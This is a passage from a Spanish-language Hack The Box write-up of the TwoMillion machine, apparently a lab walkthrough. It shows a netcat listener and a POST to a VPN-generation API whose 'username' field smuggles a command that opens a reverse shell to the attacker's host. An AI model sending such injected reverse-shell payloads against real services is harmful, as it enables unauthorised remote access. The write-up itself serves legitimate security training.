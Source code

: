 ![](../assets/img/HTB/Machines/TwoMillion/TwoMillion-20.png)

![](../assets/img/HTB/Machines/TwoMillion/TwoMillion-21.png)

Parece que en la respuesta de la petición no cambia nada, pero en cambio en el log del servidor web sí vemos que hemos recibido una petición, por lo que confirmamos que se ha inyectado el comando, ahora intentaremos inyectar una `Reverse Shell`, ponemos un puerto en escucha y lanzamos la petición:

```bash
sudo nc -nlvp 4444
```

```
POST /api/v1/admin/vpn/generate HTTP/1.1
...
Content-Type: application/json
...
{
	"username":"test;busybox nc 10.10.14.141 4444 -e /bin/bash"
}
```

![](../assets/img/HTB/Machines/TwoMillion/TwoMillion-22.png)

![](../assets/img/HTB/Machines/TwoMillion/TwoMillion-23.png)
